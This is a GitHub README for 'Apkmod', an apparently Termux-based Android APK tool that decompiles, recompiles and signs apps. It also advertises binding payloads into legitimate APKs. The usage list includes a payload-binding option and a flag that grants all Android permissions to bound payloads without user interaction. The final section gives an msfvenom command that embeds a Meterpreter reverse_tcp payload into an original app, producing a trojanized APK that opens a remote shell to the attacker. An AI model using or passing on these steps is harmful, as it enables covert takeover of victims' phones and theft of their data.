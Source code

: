 # Apkmod v2.2
### Author : @mrjarvisofficial

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2.Get git cloner by `apt install git`
3. Get the setup script `git clone https://github.com/mrjarvisofficial/Apkmod`
4. Execute the script `sh setup.sh`
5. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java=/path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

##### Binding payload to original APKs
1.Move original apk to your Internal Storage
2.Then use this command
###### Command
```
msfvenom -x /sdcard/(Name of the original apk).apk -p android/meterpreter/reverse_tcp LHOST=(Your IP)  LPORT=4444 -o /sdcard/test1.apk
```
